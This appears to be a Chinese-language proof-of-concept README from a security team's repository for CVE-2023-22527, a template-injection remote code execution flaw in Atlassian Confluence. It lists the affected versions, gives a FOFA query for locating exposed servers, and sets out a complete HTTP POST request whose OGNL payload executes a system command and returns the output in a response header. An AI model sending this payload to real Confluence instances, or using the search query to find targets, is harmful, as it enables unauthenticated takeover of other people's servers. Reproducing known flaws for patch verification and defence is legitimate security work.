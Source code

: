 # CVE-2023-22527

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence远程代码执行漏洞

## 0x01 漏洞概述

Atlassian Confluence是一款由Atlassian开发的企业团队协作和知识管理软件，提供了一个集中化的平台，用于创建、组织和共享团队的文档、知识库、项目计划和协作内容。Atlassian Confluence Data Center and Server存在安全漏洞，该漏洞源于存在模板注入漏洞，允许未经身份验证的攻击者在受影响的实例上实现远程代码执行。

## 0x02 漏洞影响版本

```
Confluence Data Center and Server 8.0.x;
Confluence Data Center and Server 8.1.x;
Confluence Data Center and Server 8.2.x;
Confluence Data Center and Server 8.3.x;
Confluence Data Center and Server 8.4.x;
8.5.0 <= Confluence Data Center and Server <= 8.5.3
```

## 0x03 FOFA语法

```
app="Atlassian-Confluence"
```

## 0x04 漏洞复现

![Untitled](image/Untitled.png)

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: x.x.x.x
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

![Untitled](image/Untitled%201.png)
